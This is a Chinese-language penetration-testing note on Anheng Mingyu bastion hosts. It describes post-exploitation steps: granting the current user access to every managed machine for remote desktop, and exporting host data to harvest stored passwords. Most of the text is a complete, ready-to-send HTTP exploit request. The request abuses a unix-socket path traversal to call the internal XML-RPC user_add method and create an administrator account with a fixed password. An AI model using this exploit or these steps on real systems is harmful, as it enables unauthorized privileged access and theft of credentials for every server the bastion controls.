





安恒
目录
堡垒机
后渗透

登录远程桌面
运维→主机运维。 可以看到很多机器，如果没有机器可以点击进行授权添加机器→右上角找到新建运维规则

然后添加用户选当前用户，添加资产把能选的全选了，然后创建运维规则

然后回到主机运维

点击右边的地球就可以远程桌面了
导出密码
资产→主机管理→最下面：导出主机,里面就会有很多密码信息

漏洞
安恒明御运维审计与风险控制系统堡垒机任意用户注册
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: xxx
Cookie: LANG=zh; USM=0a0e1f29d69f4b9185430328b44ad990832935dbf1b90b8769d297dd9f0eb848
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1121
<?xml version="1.0"?>
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>XX.XX.XX.XX</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>deptadmin</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>deptadmin</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>Deptadmin@123</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>101</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>